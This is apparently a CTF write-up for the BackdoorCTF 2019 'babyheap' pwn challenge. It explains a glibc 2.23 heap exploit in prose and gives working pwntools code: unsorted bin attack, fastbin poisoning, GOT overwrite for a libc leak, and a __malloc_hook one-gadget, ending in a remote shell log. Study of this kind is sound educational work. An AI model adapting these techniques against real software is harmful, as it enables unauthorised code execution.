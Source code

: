 ```yaml
---
layout: post
title:  "BackdoorCTF 2019: babyheap"
date:   2019-10-27 23:30:01 +0800
categories: pwn
tags: BackdoorCTF
---
```


I played this CTF with 0x1 and got 6th place.

This was a Glibc 2.23 challenge with `global_max_fast` set to 0x10, meaning we have no access to the fastbin.

TL;DR:

1. Free a chunk into the unsorted bin
2. One byte brute force to overwrite the `bk` pointer of the free unsorted bin chunk to `&global_max_fast - 0x10`
3. Launch an unsorted bin attack to overwrite `global_max_fast` with the unsorted bin's address, giving us access to the fastbin.
4. Fastbin dup to get a chunk above the global array of chunks.
5. Overwrite index 0 of the global array of chunks to point to `free@got`.
6. Overwrite `free@got` with `printf@plt`.
7. Edit the chunk above the global array of chunks and set index 0 to point to `puts@got`.
8. Call `free` on index 0 to get `puts` libc leak.
9. Fastbin dup attack to overwrite `__malloc_hook` to one gadget and get shell.

### Challenge

**Points**: 286

>Just another babyheap challenge.
>
>[http://backdoor.static.beast.sdslabs.co/static/babyheap/babyheap](http://backdoor.static.beast.sdslabs.co/static/babyheap/babyheap)
>
>[http://backdoor.static.beast.sdslabs.co/static/babyheap/libc.so.6](http://backdoor.static.beast.sdslabs.co/static/babyheap/libc.so.6)
>
>`nc 51.158.118.84 17001`
>
>Flag format: CTF{...}
>
>Created by: [Nipun Gupta](https://backdoor.sdslabs.co/users/fs0ciety)
>
>No. of Correct Submissions: 12

### Solution

This challenge was very interesting. I've read writeups of similar challenges before but never done a challenge of this type, so this was a good learning experience for me.

#### Reverse Engineering

Running the binary shows us this:
```
----------DATA BANK----------
1) Add data
2) Edit data
3) Remove data
4) Exit
>> 
```

It looks very similar to babytcache, but without the ability to view data. It is also GLIBC 2.23. It also does not have PIE or Full RELRO enabled:
```sh
vagrant@ubuntu1604:/ctf/practice/backdoorctf/babyheap$ checksec babyheap
[*] '/ctf/practice/backdoorctf/babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Looking at the binary now, the main function right at the beginning does the following:
```c
mallopt(1, 0);
```

If you look at the manpage of `mallopt`, you will see that this means that the binary is disabling the fastbin by setting `global_max_fast` to a value of 0x10. Since chunks must have a minimum size of 0x20 (with the metadata), the fastbin is impossible to use like this.

As for vulnerabilities, it is the exact same as babytcache except some constraints, so I will skip showing my interpretation of the pseudocode for each function.

1. The add function lets you add up to 12 chunks max throughout the process's lifetime.
2. The free function has a UAF. It also has a free limit of 8 frees.

#### Steps to solve

First, we must overwrite `global_max_fast` with some value that is not 0x10, so we can use the fastbins again. Since there is no easy way to get a leak, it will be almost impossible to launch a small bin unsafe unlink attack to overwrite anything useful.

Since we don't have a leak, the overwriting of `global_max_fast` required bruteforcing a single byte. If you add two chunks of size 0x30 and free the first one, you can compare the address of `global_max_fast` vs the address of the unsorted bin and see the following:
```c
pwndbg> unsortedbin
unsortedbin
all: 0x1c25000 —▸ 0x7f2e38f3bb78 (main_arena+88) ◂— 0x1c25000
pwndbg> p &global_max_fast 
$1 = (size_t *) 0x7f2e38f3d7f8 <global_max_fast>
```

You will notice that the least significant byte of `global_max_fast` is always `0xf8`, and the second least significant byte will constantly change. Everything else will be the same.

We can brute force the second byte and have a 1/8 chance of getting the address of `global_max_fast`.

I decided to launch an unsorted bin attack to overwrite `global_max_fast` with the address of the unsorted bin. If you are unfamiliar with the unsorted bin attack, you may refer to [this](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/unsorted_bin_attack.c).

Essentially, I chose a chunk of size 0x30 to perform the unsorted bin attack on. Since it will corrupt the unsorted bin, it will mean we can't malloc any chunks <= 0x30 in size anymore, which is fine for us.

Here is how the 1 byte bruteforce works:
```python
while True:
	p = start()
	add(0, 0x30, 'A'*0x30) # Used for unsorted bin attack
	add(1, 0x68, 'B'*0x68) # Used for fastbin dup

	free(0) # Send chunk A to the unsorted bin

	# Overwrite A's bk with bruteforced &global_max_fast - 0x10
	edit(0, '\x00'*8 + p16(0x27e8))

	try:
		# Launch the unsorted bin attack
		add(2, 0x30, 'C'*0x30)

		# If the unsorted bin attack successfully overwrote global_max_fast,
		# Then we can do a fastbin poisoning attack to get a chunk right above the
		# global data array
		#
		# If we successfully get the chunk there, overwrite idx 0 with free@got
		free(1)
		edit(1, p64(0x6020cd-0x10))
		add(3, 0x68, 'Z'*8)
		add(4, 0x68, 'Z'*0x53 + p64(free_got))
		if args.GDB:
			debug([])
		break
	except:
		# If it didn't work, close the process and try again
		p.close()
		continue
```

Initially we free the 0x30 chunk into the unsorted bin and overwrite the last byte with 0xe8, and the second last byte with one of the many valid bytes I found `&global_max_fast` had with gdb. Then, within a **try-except** block, we launch the unsorted bin attack and then immediately try to do the fastbin poisoning attack. If the unsorted bin attack succeeded, then the fastbin attack will work, otherwise it will go to the **except** block and restart.

Should the fastbin attack succeed, we pick this memory address because it looks like a valid chunk header for a 0x68 sized chunk:
```c
pwndbg> x/4gx 0x6020cd-0x10
0x6020bd:       0xfff7dd2540000000      0x000000000000007f
0x6020cd:       0x0000000000000000      0x0000000000000000
```

We then simply write enough bytes until we reach the global data array and overwrite index 0 to the address of `free@got`.

If all of this succeeds, we will be out of the while loop now. My plan was to overwrite `free` with `printf` and use that to leak a libc address. Before I do that though, I free another 0x68 sized chunk into the fastbin to prepare for the second fastbin poisoning attack. I then overwrite `free@got` with the address of `printf@plt`, and change index 0 to point to `puts@got` and attempt to free index 0. This will cause printf to be called with the address stored in index 0, which is actually `puts@got`, giving us a leak:
```python
free(3) # Prep for next fastbin poisoning attack
edit(0, p64(printf)) # Overwrite free with printf
edit(4, 'Z'*0x53 + p64(0x602020)) # Change idx 0 to puts@got
free(0) # printf(puts@got)

libc.address = u64(p.recv(6).ljust(8, '\x00')) - libc.sym['puts']
log.info('Libc base: ' + hex(libc.address))
```

Finally, we do the classic fastbin poisoning attack to get a chunk at `__malloc_hook-0x30+0xd` and overwrite `__malloc_hook` with a working one gadget and get a shell:
```python
edit(3, p64(libc.sym['__malloc_hook']-0x30+0xd))

add(5, 0x68, 'Z'*8)
add(6, 0x68, 'B'*0x13 + p64(libc.address+0xf1147))

p.sendlineafter('>> ', '1')
p.sendlineafter(':\n', '8')
p.sendlineafter(':\n', '104')

p.interactive()
```

It took quite a bit of time to work remotely due to the brute force, so I just cut out the brute force bit.
```sh
vagrant@ubuntu1604:/ctf/practice/backdoorctf/babyheap$ ./exploit.py REMOTE
[*] '/ctf/practice/backdoorctf/babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/ctf/practice/backdoorctf/babyheap/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
REMOTE PROCESS
[+] Opening connection to 51.158.118.84 on port 17001: Done
[*] Libc base: 0x7f9e95bcc000
[*] Switching to interactive mode
$ ls
Dockerfile
babyheap
babyheap.c
beast.toml
flag.txt
post-build.sh
public
setup.sh
$ cat flag.txt
CTF{REDACTEDREDACTEDREDACTED}
$ 
```